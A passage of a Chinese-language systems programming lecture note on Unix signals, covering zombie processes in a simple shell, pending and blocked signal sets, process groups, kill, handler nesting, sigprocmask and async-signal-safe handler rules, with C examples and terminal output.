}eval 做的事情可以分成五步，课件每一页高亮其中一步。parseline 把命令行按空格拆成 argv 数组，如果最后一个参数是 &，就把它去掉并返回 1，表示后台运行（p.11）。argv[0] 为 NULL 说明是空行，直接返回（p.12）。如果是内置命令，builtin_command 当场处理并返回 1；这个 shell 只有一个内置命令 quit（p.13）。否则 fork 一个子进程（p.14），子进程调用 execve 运行 argv[0] 指定的程序；execve 只有出错时才返回，所以它后面的 printf 和 exit 只在找不到程序时执行（p.15）。最后，父进程如果是前台作业，就用 waitpid 等这个子进程结束并回收它（p.16）；如果是后台作业，只打印子进程的 PID 和命令行，立即回去读下一条命令（p.17）。图 1 画出了两种情况。
图 1 简单 shell 运行前台作业与后台作业：前台作业被 waitpid 回收，后台作业结束后成为僵死进程
在默认环境上编译 shellex.c（parseline、builtin_command 取自教材），按课件 p.8 的顺序输入几条命令，终端上看到的是：
> /bin/ls -l csapp.c
-r--r--r-- 1 root root 23053 Nov 13 21:38 csapp.c
> /bin/ps
PID TTY TIME CMD
221 pts/0 00:00:00 shellex
223 pts/0 00:00:00 ps
> /bin/sleep 1 &
224 /bin/sleep 1 &
> /bin/ps -o pid,ppid,stat,cmd
PID PPID STAT CMD
221 220 Ss+ ./shellex
224 221 S+ /bin/sleep 1
225 221 R+ /bin/ps -o pid,ppid,stat,cmd
> /bin/ps -o pid,ppid,stat,cmd
PID PPID STAT CMD
221 220 Ss+ ./shellex
224 221 Z+ [sleep] <defunct>
226 221 R+ /bin/ps -o pid,ppid,stat,cmd
> ls
ls: Command not found.
> quit几个细节都能从这段记录里看出来。程序名必须写完整路径，ls 找不到，因为这个 shell 不会去 PATH 中搜索，execve 拿到的路径就是 “ls”。/bin/sleep 1 & 之后提示符立即出现，第一次 ps 时 sleep 还在睡眠（S），一秒多以后再看，它已经结束，状态变成了 Z，名字后面带着 <defunct>：这是一个僵死进程。shellex 只对前台作业调用 waitpid，后台作业结束后没有人回收它。
简单 shell 的问题#
shell 设计成一直运行，因此它不能积累用不着的资源（课件 p.19）。前台作业被正确地等待和回收了，后台作业却会变成僵死进程，而 shell 通常不会终止，这些僵死进程就永远得不到回收，最终可能耗尽内核的内存。
课件 2026 版在这一页加了一个问题：能不能用 waitpid 回收它们？可以，但时机不好把握。shell 可以在每次读命令之前调用一次 waitpid(-1, &status, WNOHANG)，把已经结束的后台作业回收掉；可是用户如果很久不输入命令，后台作业结束后就要一直挂着，而且 shell 也没法及时告诉用户“某个作业结束了”。shell 真正需要的，是在后台作业结束的那一刻得到通知。
解决办法还是异常控制流（课件 p.20）：子进程结束时，内核打断 shell 正在做的事，通知它“有子进程结束了”。在 Unix 中，这种通知机制就是信号。
⚠ 简单 shell 的另一个问题：后台作业会被 Ctrl-C 一起杀死
shellex 的子进程和 shell 自己在同一个进程组中（进程组见 17.3 节）。在默认环境上，从 bash 中启动 shellex，在 shellex 中运行 /bin/sleep 100 &，然后按 Ctrl-C：shellex 和后台的 sleep 一起被终止，因为 Ctrl-C 产生的 SIGINT 发给了前台进程组中的每一个进程，而这个后台作业也在其中。真正的 shell 会在 fork 之后让每个作业进入自己的进程组（setpgid(0, 0)），Shell Lab 的 tsh 也要求这样做。
17.2 信号的概念：待处理与阻塞（课件 p.22–25）#
上一讲的异常分成异步的中断和同步的陷阱、故障、终止，它们都由内核处理。课件 p.22 把信号放在同一棵分类树上：信号也是一种异常控制流，但它由用户进程处理。
信号是一条小消息，通知进程系统中发生了某种类型的事件（课件 p.23）。它与中断相似：中断是硬件通知内核，信号是内核通知进程，而且都是在接收者执行的任意时刻插进来的。信号由内核发给进程，有时是应另一个进程的请求。每种信号用一个小整数来标识，信号携带的唯一信息就是这个编号，没有别的数据。表 2 列出课件给出的五种和本讲用到的其他几种信号，默认行为一列在默认环境上逐一检验过：给自己发这个信号，看进程的结局。
表 2 常用信号（课件 p.23，教材图 8-26；默认行为在默认环境上实测）
| 号 | 名字 | 默认行为 | 对应的事件 |
|---|---|---|---|
| 2 | SIGINT | 终止 | 用户在键盘上按 Ctrl-C |
| 3 | SIGQUIT | 终止并转储内存 | 用户按 Ctrl-\ |
| 8 | SIGFPE | 终止并转储内存 | 浮点异常，实际上包括整数除以零（16.4 节） |
| 9 | SIGKILL | 终止 | 杀死程序（不能捕获，也不能忽略） |
| 10 | SIGUSR1 | 终止 | 用户自定义的信号 1 |
| 11 | SIGSEGV | 终止并转储内存 | 段错误：非法的内存引用 |
| 12 | SIGUSR2 | 终止 | 用户自定义的信号 2 |
| 14 | SIGALRM | 终止 | alarm 设定的定时器到时 |
| 15 | SIGTERM | 终止 | 软件终止信号，kill 命令的默认信号 |
| 17 | SIGCHLD | 忽略 | 一个子进程停止或终止 |
| 18 | SIGCONT | 继续（进程没有停止时相当于忽略） | 让停止的进程继续运行 |
| 19 | SIGSTOP | 停止 | 不是来自终端的停止信号（不能捕获，也不能忽略） |
| 20 | SIGTSTP | 停止 | 用户按 Ctrl-Z |
⚠ 课件 p.23 的“1-30”
课件说信号的编号是 1–30。在 x86-64 Linux 上，kill -l 列出的标准信号是 1–31（31 号是 SIGSYS），另外还有 34–64 号的实时信号。实时信号与标准信号不同，同一种实时信号会排队，本课程不涉及。
信号从发出到被处理分成两步。内核发送（send，也说递送 deliver）一个信号，是更新目的进程上下文中的某个状态；目的进程接收（receive）一个信号，是被内核强迫以某种方式对它作出反应。一个已经发出、还没有被接收的信号称为待处理信号（pending signal，课件 p.24）。
关键的规则是：任何时刻，一种类型的待处理信号最多只有一个。如果一个进程已经有一个类型为 k 的待处理信号，后面再发给它的 k 类型信号不会排队，而是被直接丢弃。一个待处理信号最多只被接收一次。这条规则贯穿本讲，17.9 节会看到它最常见的后果。
进程还可以阻塞（block）某些信号。被阻塞的信号仍然可以发送给这个进程，成为待处理信号，但不会被接收，直到进程解除阻塞为止。阻塞不等于丢弃：解除阻塞时，待处理的信号还在，会立即被接收。
这些规则用两个位向量就能实现（课件 p.25）。内核在每个进程的上下文中维护两个位向量：pending 表示待处理信号的集合，blocked 表示被阻塞信号的集合，blocked 也称为信号掩码（signal mask）。发送一个 k 类型的信号时，内核把 pending 的第 k 位置 1；接收一个 k 类型的信号时，内核把第 k 位清 0。既然每种信号只有一位，“不排队”就是自然的结果：第 k 位已经是 1 时再置一次 1，什么也没有改变。blocked 由进程用 sigprocmask 函数设置和清除（17.7 节）。课件 p.27–32 用动画演示了这个过程，图 2 是它的静态版本。
图 2 进程 C 的 pending 与 blocked 位向量（课件 p.27–32）：同一种信号在被接收之前只占一位
在默认环境上可以直接观察待处理位。下面的程序先阻塞 SIGINT、SIGUSR1、SIGUSR2、SIGTERM 四种信号，再给自己发 5 次 SIGUSR2、1 次 SIGTERM、3 次 SIGUSR1、1 次 SIGINT，一共 10 次，然后用 sigpending 读出待处理的集合，最后解除阻塞：
#include "csapp.h"
const char *sigabbrev_np(int sig); /* 信号的简称，如 "INT"；glibc 2.32 起提供 */
void handler(int sig)
{
Sio_puts("received ");
Sio_puts((char *)sigabbrev_np(sig));
Sio_puts("\n");
}
static void show_pending(const char *when)
{
sigset_t p;
sigpending(&p); /* 读出待处理信号的集合 */
printf("%s pending:", when);
for (int s = 1; s <= 31; s++)
if (sigismember(&p, s)) printf(" %s(%d)", sigabbrev_np(s), s);
printf("\n");
fflush(stdout);
}
int main(void)
{
sigset_t mask, prev;
Signal(SIGINT, handler);
Signal(SIGUSR1, handler);
Signal(SIGUSR2, handler);
Signal(SIGTERM, handler);
Sigemptyset(&mask);
Sigaddset(&mask, SIGINT); Sigaddset(&mask, SIGUSR1);
Sigaddset(&mask, SIGUSR2); Sigaddset(&mask, SIGTERM);
Sigprocmask(SIG_BLOCK, &mask, &prev);
show_pending("before");
for (int i = 0; i < 5; i++) /* 5 次 SIGUSR2 */
Kill(getpid(), SIGUSR2);
Kill(getpid(), SIGTERM);
for (int i = 0; i < 3; i++) /* 3 次 SIGUSR1 */
Kill(getpid(), SIGUSR1);
Kill(getpid(), SIGINT);
show_pending("after 10 kills");
printf("unblocking\n"); fflush(stdout);
Sigprocmask(SIG_SETMASK, &prev, NULL); /* 返回用户模式之前就会接收 */
printf("back in main\n");
show_pending("finally");
return 0;
}Signal、Sigprocmask、Kill 等是 csapp.c 中带错误检查的包装函数，Sio_puts 是其中可以在处理程序里安全使用的输出函数（17.8 节）。运行结果如下，before 和 finally 两行的集合都是空的，略去：
after 10 kills pending: INT(2) USR1(10) USR2(12) TERM(15)
unblocking
received TERM
received USR2
received USR1
received INT
back in main10 次发送只留下 4 个待处理位，解除阻塞后每种信号的处理程序各运行一次，5 次 SIGUSR2 和 3 次 SIGUSR1 都只算了一次。处理程序运行的先后为什么是从大编号到小编号，17.4 节再解释。
★ 要点：待处理与阻塞
发送是内核把目的进程 pending 的第 k 位置 1，接收是内核把它清 0 并让进程作出反应。每种信号只有一位，所以信号不排队：同一种信号在被接收之前再来多少次，都只算一次。阻塞的信号可以变成待处理，但不会被接收，直到解除阻塞；阻塞不会丢弃信号。
17.3 发送信号（课件 p.26–37）#
内核向目的进程发送信号，原因有两种（课件 p.26）。一种是内核检测到了某个系统事件，比如进程执行了除以零的指令（SIGFPE），或者它的一个子进程终止了（SIGCHLD）；这时发信号的“请求者”就是内核自己。另一种是某个进程调用了 kill 系统调用，显式地要求内核给目的进程发一个信号；进程也可以给自己发信号。不论哪一种，真正修改目的进程 pending 位的都是内核，进程之间并不直接通信。
进程组#
发送信号的几种方式都建立在进程组（process group）的基础上（课件 p.33）。每个进程恰好属于一个进程组，进程组用一个正整数进程组 ID（pgid）标识。默认情况下，子进程和父进程属于同一个进程组。getpgrp 返回当前进程的进程组 ID，setpgid 改变一个进程的进程组：
pid_t getpgrp(void);
int setpgid(pid_t pid, pid_t pgid);setpgid(pid, pgid) 把进程 pid 的进程组改为 pgid；pid 为 0 表示当前进程，pgid 为 0 表示用 pid 本身作为进程组 ID。所以 setpgid(0, 0) 的意思是“新建一个进程组，组号就是我的 PID，我加入它”。shell 为每个作业创建一个独立的进程组，图 3 是课件 p.33 的例子：shell 自己是进程 10，前台作业由进程 20、21、22 组成，进程组号都是 20；两个后台作业分别是进程组 32 和 40。
图 3 shell 为每个作业建立一个进程组（课件 p.33、p.35）：Ctrl-C、Ctrl-Z 的信号发给前台进程组中的每个进程
用 /bin/kill 程序发送信号#
/bin/kill 程序可以向一个进程或一个进程组发送任意信号（课件 p.34）。/bin/kill -9 24818 向进程 24818 发送 9 号信号 SIGKILL；PID 写成负数，比如 /bin/kill -9 -24817，表示向进程组 24817 中的每个进程发送 SIGKILL。课件用 forks.c 中的 fork16 演示：父进程创建一个子进程后结束，子进程再创建一个孙进程，两者都进入死循环，它们和已经结束的父进程同属一个进程组：
void fork16()
{
if (fork() == 0) {
printf("Child1: pid=%d pgrp=%d\n",
getpid(), getpgrp());
if (fork() == 0)
printf("Child2: pid=%d pgrp=%d\n",
getpid(), getpgrp());
while(1);
}
}在默认环境的 bash 中运行，用一条命令杀死整个进程组：
linux> ./forks 16
Child1: pid=180 pgrp=179
Child2: pid=181 pgrp=179
linux> ps -o pid,pgid,stat,time,cmd
PID PGID STAT TIME CMD
178 178 Ss 00:00:00 bash --norc --noprofile -i
180 179 R 00:00:00 ./forks 16
181 179 R 00:00:00 ./forks 16
182 182 R+ 00:00:00 ps -o pid,pgid,stat,time,cmd
linux> /bin/kill -9 -- -179
linux> ps -o pid,pgid,stat,time,cmd
PID PGID STAT TIME CMD
178 178 Ss 00:00:00 bash --norc --noprofile -i
180 179 Z 00:00:01 [forks] <defunct>
181 179 Z 00:00:01 [forks] <defunct>
188 188 R+ 00:00:00 ps -o pid,pgid,stat,time,cmd进程组号 179 就是已经结束的父进程的 PID，两个进程都没有自己建组。杀死之后它们还短暂地显示为 Z：180 的父进程早已结束，它成了孤儿，要等收养它的 1 号进程来回收；默认环境的 1 号进程回收得慢一点（16.10 节），稍后再看就没有了。
⚠ 在 Ubuntu 24.04 上，课件 p.34 的写法会被误解析
默认环境的 /bin/kill 来自 procps-ng 4.0.4。照课件写 /bin/kill -9 -179，命令什么也不报，进程组却没有被杀死。用 strace 跟踪，/bin/kill -9 -24817 实际执行的是 kill(-2, SIGKILL)，-394 变成了 -3：负号后面只取了第一位数字，结果发给了一个不存在的进程组。在负的 PID 前面加 --（选项结束），写成 /bin/kill -9 -- -179，就正确了。bash 的内置 kill 命令（直接在 bash 里写 kill -9 -179）没有这个问题。另外，课件中的 “–9” 用的是排版用的短破折号，照抄到终端里也不能运行。
从键盘发送信号#
在键盘上按 Ctrl-C，内核向前台进程组中的每个进程发送 SIGINT，默认行为是终止进程；按 Ctrl-Z，发送 SIGTSTP，默认行为是停止（挂起）进程（课件 p.35）。“前台进程组”由终端记录，shell 每启动一个前台作业，就把终端的前台进程组设为这个作业的进程组。课件 p.36 用 fork17 演示，它的父子进程都进入死循环：
void fork17()
{
if (fork() == 0) {
printf("Child: pid=%d pgrp=%d\n",
getpid(), getpgrp());
}
else {
printf("Parent: pid=%d pgrp=%d\n",
getpid(), getpgrp());
}
while(1);
}默认环境上的终端记录如下，^Z 和 ^C 是真实按下的 Ctrl-Z 和 Ctrl-C：
linux> ./forks 17
Parent: pid=411 pgrp=411
Child: pid=412 pgrp=411
^Z
[1]+ Stopped ./forks 17
linux> ps w
PID TTY STAT TIME COMMAND
410 pts/1 Ss 0:00 bash --norc --noprofile -i
411 pts/1 T 0:00 ./forks 17
412 pts/1 T 0:00 ./forks 17
413 pts/1 R+ 0:00 ps w
linux> fg
./forks 17
^C
linux> ps w
PID TTY STAT TIME COMMAND
410 pts/1 Ss 0:00 bash --norc --noprofile -i
412 pts/1 Z 0:00 [forks] <defunct>
414 pts/1 R+ 0:00 ps wCtrl-Z 之后，父子两个进程的状态都是 T（停止），说明 SIGTSTP 发给了进程组 411 中的每一个进程。fg 是 bash 的内置命令，它向这个作业发送 SIGCONT，让它们继续运行，并把它重新设为前台作业。再按 Ctrl-C，两个进程都被终止。412 还显示为 Z，原因与上面相同：它的父进程 411 也被杀死了，它成了等待 1 号进程回收的孤儿。课件 p.36 的 STAT 图例中，第一个字母 S 表示睡眠，T 表示停止，R 表示运行；第二个字母 s 表示会话首进程（这里是 bash），+ 表示属于前台进程组。
用 kill 函数发送信号#
进程用 kill 函数向其他进程（包括自己）发送信号：
int kill(pid_t pid, int sig);pid 大于 0 时，把信号 sig 发给进程 pid；pid 等于 0 时，发给调用者所在进程组中的每个进程，包括调用者自己；pid 等于 −1 时，发给调用者有权限发送的所有进程（除了 1 号进程）；pid 小于 −1 时，发给进程组 |pid| 中的每个进程。课件 p.37 的 fork12 创建 N 个死循环的子进程，然后逐个发送 SIGINT，再逐个回收：
void fork12()
{
pid_t pid[N];
int i;
int child_status;
for (i = 0; i < N; i++)
if ((pid[i] = fork()) == 0) {
/* Child: Infinite Loop */
while(1)
;
}
for (i = 0; i < N; i++) {
printf("Killing process %d\n", pid[i]);
kill(pid[i], SIGINT);
}
for (i = 0; i < N; i++) {
pid_t wpid = wait(&child_status);
if (WIFEXITED(child_status))
printf("Child %d terminated with exit status %d\n",
wpid, WEXITSTATUS(child_status));
else
printf("Child %d terminated abnormally\n", wpid);
}
}N 取 5，默认环境上的一次运行：
Killing process 343
Killing process 344
Killing process 345
Killing process 346
Killing process 347
Child 344 terminated abnormally
Child 346 terminated abnormally
Child 347 terminated abnormally
Child 345 terminated abnormally
Child 343 terminated abnormally子进程没有安装 SIGINT 的处理程序，收到 SIGINT 后按默认行为终止，不是调用 exit 正常结束，所以 WIFEXITED 为假，打印 “terminated abnormally”。回收的顺序与发送的顺序无关，这和 16.11 节 wait 的结论一致。
除了上面三种方式，进程还可以用 alarm 函数给自己安排一个 SIGALRM：alarm(secs) 让内核在 secs 秒后向调用进程发送 SIGALRM，17.8 节的一个实验会用到它。
17.4 接收信号（课件 p.38–41）#
目的进程被内核强迫对信号作出反应，就是接收了这个信号（课件 p.38）。反应有三种：忽略这个信号；终止进程（可能同时转储内存）；执行一个称为信号处理程序（signal handler）的用户级函数来捕获这个信号。第三种和上一讲硬件异常的处理过程很像：主程序正在执行指令 I_curr 时接收到信号，控制转到处理程序，处理程序运行完毕后返回，主程序从下一条指令 I_next 继续。
进程在什么时刻接收信号#
信号什么时候被接收？不是在发送的那一刻，而是在目的进程下一次从内核模式返回用户模式的时候（课件 p.39–40）。进程会进入内核的情形很多：执行系统调用，被定时器中断打断，发生缺页，被上下文切换换下又换上。课件 p.39 特别强调，所有的上下文切换都是由某个异常处理程序发起的，所以一个进程被换回来运行时，也一定是内核正要从某个异常处理程序返回到这个进程。
内核在把控制交还给进程 p 之前，计算 pnb = pending & ~blocked，也就是 p 的待处理且没有被阻塞的信号集合。如果 pnb 为 0，控制照常回到 p 的逻辑控制流中的下一条指令；如果 pnb 不为 0，内核选择 pnb 中最小的非零位 k，强迫 p 接收信号 k，执行相应的动作；对 pnb 中的每一个非零位重复这个过程，然后才把控制交回 p 的下一条指令。图 4 画出了这个过程。
图 4 信号在进程从内核返回用户模式时被接收（课件 p.38–40、p.45）：pnb 非零时先执行处理程序，处理程序返回后再回到下一条指令
这个规则说明了信号处理的两个基本性质。第一，信号的接收是异步的：发送者无法知道接收者在哪一条指令处被打断。第二，信号的接收一定会发生，只是可能有延迟：只要进程还在运行，它总会再次从内核返回用户模式，比如下一次定时器中断之后，所以一个没有被阻塞的待处理信号迟早会被接收。往年考题问“进程何时检查待处理信号并调用处理程序”，答案就是“从内核模式切换到用户模式时”，不是“随时”，也不是“从用户模式进入内核模式时”。
常见问题：17.2 节的实验中，处理程序为什么是从大编号到小编号运行的？
课件说内核先选最小的 k，那么 17.2 节解除阻塞之后，应当先运行 SIGINT 的处理程序。实际上内核确实是按 2、10、12、15 的顺序接收这四个信号的：接收 SIGINT 时，它在用户栈上为 SIGINT 的处理程序准备好调用现场；可是在回到用户模式之前，pnb 中还有 10、12、15，内核接着接收 SIGUSR1，在刚才的现场之上再准备一层，如此重复。结果是 SIGTERM 的处理程序在最上层，最先开始执行；它返回后回到 SIGUSR2 的处理程序的开头，依此类推，SIGINT 的处理程序最后执行。每一层处理程序都在“第一条指令之前”就被下一个信号打断了，这正是 17.6 节所说的嵌套。用 sigaction 安装处理程序时让它运行期间阻塞所有信号（sa_mask 设为全集），同一个实验的输出就变成 INT、USR1、USR2、TERM，按编号从小到大，因为每接收一个信号，其余的都被阻塞，只能等这个处理程序返回之后再接收。
默认行为#
每种信号都有一个预先定义的默认行为，是下面四种之一（课件 p.41）：进程终止；进程终止并转储内存（把内存映像写进一个 core 文件，供调试器分析）；进程停止，直到被 SIGCONT 信号重启；进程忽略该信号。在默认环境上把 1–31 号信号逐一发给一个没有安装处理程序的子进程，结果是：17（SIGCHLD）、18（SIGCONT）、23（SIGURG）、28（SIGWINCH）被忽略，子进程照常退出；19–22（SIGSTOP、SIGTSTP、SIGTTIN、SIGTTOU）使子进程停止；3、4、5、6、7、8、11、24、25、31 号使子进程终止并转储内存；其余的使子进程终止。SIGCHLD 的默认行为是忽略，这就是 shellex 收不到任何“子进程结束”通知的原因：它没有为 SIGCHLD 安装处理程序。
17.5 安装信号处理程序（课件 p.42–43）#
进程用 signal 函数修改接收信号 signum 时的行为（课件 p.42）：
typedef void handler_t(int);
handler_t *signal(int signum, handler_t *handler);handler 有三种取值。SIG_IGN 表示忽略 signum 类型的信号；SIG_DFL 表示恢复为默认行为；其他值被看作一个用户级函数的地址，也就是信号处理程序，进程接收到 signum 类型的信号时调用它。用 signal 设置处理程序称为安装（install）处理程序，调用处理程序称为捕获（catch）或处理（handle）信号。处理程序只有一个 int 参数，内核调用它时把信号的编号传进来，所以同一个函数可以处理好几种信号。处理程序执行 return 之后，控制回到被这个信号打断的那条指令所在的控制流中。signal 成功时返回原来的处理程序，失败时返回 SIG_ERR。
课件 p.43 的 sigint.c 捕获 SIGINT，在处理程序中打印一段话后退出：
#include "csapp.h"
void sigint_handler(int sig) /* SIGINT handler */
{
printf("So you think you can stop the bomb with ctrl-c, do you?\n");
sleep(2);
printf("Well...");
fflush(stdout);
sleep(1);
printf("OK. :-)\n");
exit(0);
}
int main()
{
/* Install the SIGINT handler */
if (signal(SIGINT, sigint_handler) == SIG_ERR)
unix_error("signal error");
/* Wait for the receipt of a signal */
pause();
return 0;
}pause 让进程睡眠，直到收到一个被捕获的信号或者一个会终止进程的信号。默认环境上运行，按下 Ctrl-C：
linux> ./sigint
^CSo you think you can stop the bomb with ctrl-c, do you?
Well...OK. :-)
linux>“So you think...” 立即出现，两秒后出现 “Well...”，再过一秒出现 “OK. :-)”，然后进程退出。这个处理程序调用了 printf 和 exit，17.8 节会说明这是不安全的写法，课件 p.52 给出了改写后的版本。
不是所有信号都能捕获。SIGKILL 和 SIGSTOP 的默认行为不能改变，既不能捕获，也不能忽略，这保证了系统管理员总能杀死或停止任何进程。在默认环境上对 SIGKILL、SIGSTOP 调用 signal，不论安装处理程序还是设为 SIG_IGN，都返回 SIG_ERR，errno 为 EINVAL（Invalid argument）；对 SIGINT、SIGTSTP 同样的调用都成功。
教材补充：signal 的语义与 csapp.c 中的 Signal
早期的 Unix 系统中，signal 的语义各不相同：有的系统在处理程序被调用一次之后就把行为恢复为默认值，有的系统中被信号打断的慢速系统调用（比如 read）会返回错误、errno 为 EINTR，要由程序自己重新调用（教材 8.5.5 节“可移植的信号处理”）。POSIX 定义了 sigaction 函数，可以明确地指定这些行为，但用起来比较繁琐。教材 csapp.c 中的包装函数 Signal 用 sigaction 实现，语义是：处理程序一直有效，直到再次安装；处理程序运行期间只阻塞正在处理的那种信号；被打断的系统调用在可能时自动重新开始（SA_RESTART）。今天 glibc 中的 signal 也是这样的语义，所以课件和讲义的程序混用 signal 和 Signal，结果相同。
17.6 处理程序是并发流（课件 p.44–46）#
信号处理程序是一条独立的逻辑控制流，但不是一个新的进程，它与主程序并发执行（课件 p.44）。这条控制流只存在到处理程序返回为止。从时间上看（课件 p.45）：进程 A 正在执行主程序，某个时刻信号被递送给 A，pending 位被置上；A 可能被换下，进程 B 运行一段时间；内核切换回 A 时发现有待处理的信号，于是 A 先执行处理程序，处理程序返回后再回到主程序被打断的地方继续。主程序与处理程序都在同一个进程中，共享同一个地址空间里的全局变量，这正是信号处理中各种麻烦的根源。
处理程序本身也可以被其他信号打断（课件 p.46）。主程序捕获信号 s，控制转到处理程序 S；S 运行时进程又捕获了信号 t，控制转到处理程序 T；T 返回到 S，S 返回到主程序，主程序继续。
默认环境上的一个程序可以把嵌套和隐式阻塞（17.7 节）一起演示出来。SIGUSR1 的处理程序 S 和 SIGUSR2 的处理程序 T 都用忙等的方式运行一段时间，S 运行 400 毫秒，T 运行 100 毫秒；一个子进程在第 50 毫秒发 SIGUSR1，第 150 毫秒发 SIGUSR2，第 250 毫秒连发 3 个 SIGUSR1：
#include "csapp.h"
static void busy(long ms) /* 忙等 ms 毫秒；不用 sleep，免得被信号提前唤醒 */
{
struct timespec a, b;
clock_gettime(CLOCK_MONOTONIC, &a);
do clock_gettime(CLOCK_MONOTONIC, &b);
while ((b.tv_sec - a.tv_sec) * 1000 + (b.tv_nsec - a.tv_nsec) / 1000000 < ms);
}
void handler_S(int sig) /* SIGUSR1 */
{
Sio_puts(" S begins\n");
busy(400);
Sio_puts(" S ends\n");
}
void handler_T(int sig) /* SIGUSR2 */
{
Sio_puts(" T begins\n");
busy(100);
Sio_puts(" T ends\n");
}
int main(void)
{
pid_t parent = getpid();
Signal(SIGUSR1, handler_S);
Signal(SIGUSR2, handler_T);
if (Fork() == 0) { /* 子进程按时间表发信号 */
usleep(50000); Sio_puts("[child] USR1\n"); Kill(parent, SIGUSR1);
usleep(100000); Sio_puts("[child] USR2\n"); Kill(parent, SIGUSR2);
usleep(100000); Sio_puts("[child] USR1 x3\n");
Kill(parent, SIGUSR1); Kill(parent, SIGUSR1); Kill(parent, SIGUSR1);
_exit(0);
}
Sio_puts("main: working\n");
busy(1500);
Sio_puts("main: done\n");
return 0;
}输出是：
main: working
[child] USR1
S begins
[child] USR2
T begins
T ends
[child] USR1 x3
S ends
S begins
S ends
main: done图 5 把它画在时间轴上。第 150 毫秒到达的 SIGUSR2 打断了正在运行的 S，T 运行完返回到 S，这是嵌套。第 250 毫秒的 3 个 SIGUSR1 到达时 S 还在运行，它们没有打断 S，而是成为待处理信号；S 结束后，S 又运行了一次，只运行了一次。运行 20 次，S 都是恰好运行 2 次。
图 5 处理程序的嵌套与隐式阻塞（默认环境实测）：T 打断 S；S 运行时到达的 3 个 SIGUSR1 合并成一个待处理信号
17.7 阻塞与解除阻塞（课件 p.47–48）#
Linux 提供两种阻塞信号的机制（课件 p.47）。
隐式阻塞：内核默认阻塞所有与当前正在处理的信号同类型的待处理信号。比如 SIGINT 的处理程序运行时，另一个 SIGINT 不会打断它，只会成为待处理信号，等处理程序返回后再被接收。上一节的实验中 S 没有被后来的 SIGUSR1 打断，就是这个原因。隐式阻塞只针对同一种信号，T 能打断 S，因为 SIGUSR2 与 SIGUSR1 不同。
显式阻塞：用 sigprocmask 函数和几个辅助函数，明确地阻塞和解除阻塞选定的信号：
int sigprocmask(int how, const sigset_t *set, sigset_t *oldset);
int sigemptyset(sigset_t *set); /* 初始化为空集 */
int sigfillset(sigset_t *set); /* 把每个信号都加进 set */
int sigaddset(sigset_t *set, int signum); /* 把 signum 加进 set */
int sigdelset(sigset_t *set, int signum); /* 从 set 中删去 signum */
int sigismember(const sigset_t *set, int signum); /* signum 在 set 中返回 1 */sigprocmask 改变当前阻塞的信号集合，也就是 17.2 节的 blocked 位向量，具体行为由 how 决定：SIG_BLOCK 把 set 中的信号加进 blocked（blocked = blocked | set）；SIG_UNBLOCK 从 blocked 中删去 set 中的信号（blocked = blocked & ~set）；SIG_SETMASK 用 set 替换 blocked（blocked = set）。如果 oldset 不是 NULL，原来的 blocked 被保存在 oldset 中。
最常见的用法是“暂时阻塞某些信号，做完一段不能被打断的工作，再恢复原样”（课件 p.48）：
sigset_t mask, prev_mask;
Sigemptyset(&mask);
Sigaddset(&mask, SIGINT);
/* Block SIGINT and save previous blocked set */
Sigprocmask(SIG_BLOCK, &mask, &prev_mask);
/* Code region that will not be interrupted by SIGINT */
/* Restore previous blocked set, unblocking SIGINT */
Sigprocmask(SIG_SETMASK, &prev_mask, NULL);注意恢复时用的是 SIG_SETMASK 和保存下来的 prev_mask，而不是用 SIG_UNBLOCK 删去 SIGINT。如果进入这段代码之前 SIGINT 本来就是阻塞的，SIG_UNBLOCK 会错误地解除它，而 SIG_SETMASK 能准确地回到进入之前的状态。
★ 要点：两种阻塞
隐式阻塞是内核自动做的，只阻塞与正在处理的信号同类型的信号，处理程序返回时自动解除。显式阻塞用 sigprocmask，SIG_BLOCK 是“加入”，SIG_UNBLOCK 是“删去”，SIG_SETMASK 是“替换”。阻塞只推迟接收，不丢弃信号；但阻塞期间同一种信号来多次，仍然只算一次。
17.8 编写安全的信号处理程序（课件 p.49–53）#
处理程序难写，是因为它与主程序并发运行，又共享同样的全局数据（课件 p.49）。共享的数据结构可能因此被破坏。并发问题在课程后面还会专门讨论，课件 p.50 先给出六条规则，教材 8.5.5 节对每一条都有解释。
G0：处理程序要尽可能简单。例如只设置一个全局标志，然后立即返回，所有的处理都放在主程序中，由主程序周期性地检查这个标志。
G1：在处理程序中只调用异步信号安全的函数。printf、sprintf、malloc、exit 都不是安全的。
G2：进入处理程序时保存 errno，返回前恢复它。否则处理程序中的函数可能改掉主程序刚刚设置的 errno。
G3：访问共享的全局数据结构时，暂时阻塞所有的信号。防止数据结构被破坏。
G4：用 volatile 声明全局变量。防止编译器把它们缓存在寄存器里。
G5：用 volatile sig_atomic_t 声明标志。标志是只读或只写的变量（flag = 1 而不是 flag++），这样声明的标志不需要像其他全局变量那样加以保护。
异步信号安全#
一个函数是异步信号安全（async-signal-safe）的，要么因为它是可重入的（例如它的所有变量都在自己的栈帧中，教材 12.7.2 节），要么因为它不能被信号中断（课件 p.51）。POSIX 保证一百多个函数是异步信号安全的，完整的列表在 man 7 signal-safety 中（较早的手册在 man 7 signal 中）。常用的安全函数有 _exit、write、wait、waitpid、sleep、kill；常用的不安全的函数有 printf、sprintf、malloc、exit。一个不幸的事实是：write 是唯一异步信号安全的输出函数。
printf 和 malloc 为什么不安全？它们内部都维护着共享的数据结构：printf 有 stdout 的缓冲区，malloc 有堆的空闲链表（后面讲动态内存分配时会讲到）。如果主程序正在 malloc 中修改空闲链表，修改到一半时被信号打断，处理程序又调用 malloc，它看到的就是一个不一致的链表。默认环境上的一个实验把这个情形放大了：主程序不停地 malloc、free，定时器每 50 微秒发一次 SIGALRM，SIGALRM 的处理程序也调用 malloc 和 free：
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/time.h>
#include <unistd.h>
volatile sig_atomic_t hits = 0;
void handler(int sig)
{
void *p = malloc(64); /* 不安全 */
free(p);
hits++;
}
int main(void)
{
struct itimerval t = {{0, 50}, {0, 50}}; /* 每 50 微秒一次 SIGALRM */
signal(SIGALRM, handler);
setitimer(ITIMER_REAL, &t, NULL);
for (long i = 0; i < 200000000L; i++) {
void *p = malloc(100 + i % 1000);
free(p);
if (i % 20000000 == 0) {
char msg[64];
int n = snprintf(msg, sizeof msg, "i=%ld handler ran %d times\n",
i, (int)hits);
write(1, msg, n);
}
}
write(1, "finished\n", 9);
return 0;
}运行 20 次，14 次在几秒钟内被 glibc 的一致性检查发现堆已损坏，打印 Fatal glibc error: malloc.c:2599 (sysmalloc): assertion failed 之后以 SIGABRT 终止；另外 6 次侥幸跑完。这种错误不是每次都出现，正因为如此才难查。17.13 节还会看到一个 printf 被处理程序打断、输出了重复字符的真实例子。
